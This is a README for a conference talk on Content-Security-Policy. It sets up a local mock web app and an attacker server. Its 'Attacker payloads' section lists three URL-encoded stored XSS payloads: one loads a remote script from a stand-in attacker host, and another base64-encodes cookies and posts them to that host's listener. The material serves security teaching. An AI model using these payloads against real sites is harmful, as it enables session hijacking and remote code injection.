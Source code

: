 # Research on Content-Security-Policy

## Introduction

💬 This folder contains all my work for the presentation about Content-Security-Policy (CSP) given at the [VOXXED LU 2024](https://mobile.devoxx.com/events/voxxedlu24/talks/2213/details) conference..

💻 [VSCode](https://code.visualstudio.com/) was used as main [IDE](https://en.wikipedia.org/wiki/Integrated_development_environment).

💻 A distribution of [Chromium](https://chromium.woolyss.com/download/en/) for Windows was used to work on this research. It was stored in a folder, named **chromium**, located at the root of the project folder (added to [git ignore file](.gitignore)).

## Content

* 📄 Files:
  * [code.code-workspace](code.code-workspace): VScode workspace descriptor.
  * [pitch.docx](pitch.docx): Contains the synopsis, in french, of the presentation.
  * [presentation.pptx](presentation.pptx): Contains the presentation.
  * [presentation-schemas.md](presentation-schemas.md): Contains the schemas used into presentation created using [mermaid](https://mermaid.js.org/).
  * [scratchpad.md](scratchpad.md): Contains all the technical notes and information gathered during the work on the presentation and related technical research.
* 📂 Folders:
  * [app](app/): Contains the mock web application with the XSS used for the context of the presentation.
  * [attacker](attacker/): Contains the web listeners and payloads used to exploit the XSS as the attacker.
  * [exports](exports/): Contains different formats of the presentation.  
  * [sources](sources/): Contains the original files of different elements used.

## Run the app

📑 **Step 1** - Add these entries to your **hosts** file:

```text
127.0.0.1 attacker.local
127.0.0.1 righettod.local
```

 👨‍💻 **Step 2** - Run the following command, from the **attacker** folder:

```powershell
PS> php -S localhost:9000
PHP 7.3.4 Development Server started 
Listening on http://0.0.0.0:9000
```

👨‍💻 **Step 3** - Run the following command, from the **app** folder:

```powershell
PS> php -S localhost:8000
PHP 7.3.4 Development Server started 
Listening on http://0.0.0.0:8000
```

🌏 Then, browse on <http://localhost:8000> to access the sample app.

## Attacker payloads

😈 This is the content to add into the file [comments.json](app/store/comments.json) of the app to simulate the differents stored XSS performed by the attacker:

```json
[
    {
        "userName": "remote payload",
        "userEmail": "dom@attacker.lu",
        "userComment": "%3Cimg+src%3D%27x%27+onerror%3D%27%24.getScript%28%5C%22%2F%2Fattacker.local%3A9000%2Fpayload.js%5C%22%29%27%3E"
    },
    {
        "userName": "embedded payload v1",
        "userEmail": "dom@attacker.lu",
        "userComment": "%3Cimg%20src%3D%27x%27%20onerror%3D%27fetch%28%5C%22%2Fapi%2Ephp%3Fsource%3Dxss%5C%22%29%3Balert%28%5C%22Evil%20code%20loaded%20%3A%29%5C%22%29%3B%27%3E"
    },
    {
        "userName": "embedded payload v2",
        "userEmail": "dom@attacker.lu",
        "userComment": "%3Cimg%20src%3D%27x%27%20onerror%3D%27let%20cke%3Dbtoa%28document%2Ecookie%29%3Blet%20bdy%3Ddocument%2EgetElementsByTagName%28%5C%22body%5C%22%29%5B0%5D%3Blet%20frm%3Ddocument%2EcreateElement%28%5C%22form%5C%22%29%3Bfrm%2EsetAttribute%28%5C%22method%5C%22%2C%5C%22post%5C%22%29%3Bfrm%2EsetAttribute%28%5C%22action%5C%22%2C%5C%22%2F%2Fattacker%2Elocal%3A9000%2Flistener%2Ephp%5C%22%29%3Blet%20prm%3Ddocument%2EcreateElement%28%5C%22input%5C%22%29%3Bprm%2EsetAttribute%28%5C%22type%5C%22%2C%5C%22hidden%5C%22%29%3Bprm%2EsetAttribute%28%5C%22name%5C%22%2C%5C%22data%5C%22%29%3Bprm%2EsetAttribute%28%5C%22value%5C%22%2Ccke%29%3Bfrm%2EappendChild%28prm%29%3Bbdy%2EappendChild%28frm%29%3Bfrm%2Esubmit%28%29%3B%27%3E"
    }
]
```

## References

* [Base of the mock web app](https://themewagon.com/themes/fruitables-free/).
* [PHP download for Windows](https://windows.php.net/download#php-8.3).
* [Chromium download](https://chromium.woolyss.com/download/en/).
* [Mozilla web security guidelines](https://infosec.mozilla.org/guidelines/web_security).

# License

<a rel="license" href="http://creativecommons.org/licenses/by-sa/4.0/"><img alt="Creative Commons License" style="border-width:0" src="https://i.creativecommons.org/l/by-sa/4.0/88x31.png" /></a><br />Presentation and all the content of this repository are licensed under a <a rel="license" href="http://creativecommons.org/licenses/by-sa/4.0/">Creative Commons Attribution-ShareAlike 4.0 International License</a>.

# Misc

![cfp](submission-cfp.png)
